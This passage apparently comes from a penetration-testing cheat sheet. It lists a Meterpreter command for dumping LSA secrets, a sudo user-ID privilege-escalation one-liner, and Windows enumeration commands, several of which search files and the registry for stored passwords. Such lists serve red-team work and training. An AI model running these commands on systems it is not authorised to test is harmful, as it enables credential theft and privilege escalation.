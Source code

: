 ```shell-session
meterpreter > lsa_dump_secrets
```


### Bash privilege escalation

```
sudo -u#-1 /bin/bash
```



## Windows

### Windows enumeration

```
net config Workstation

systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
   
hostname
   
net users

ipconfig /all
   
route print

systeminfo
  
arp -A
  
netstat -ano
   
netsh firewall show state
   
netsh firewall show config
   
schtasks /query /fo LIST /v
   
tasklist /SVC
   
net start
 
DRIVERQUERY
   
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
   
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
   
dir /s _pass_ == _cred_ == _vnc_ == _.config_
   
findstr /si password *.xml *.ini *.txt
   
reg query HKLM /f password /t REG_SZ /s
   
reg query HKCU /f password /t REG_SZ /s
```
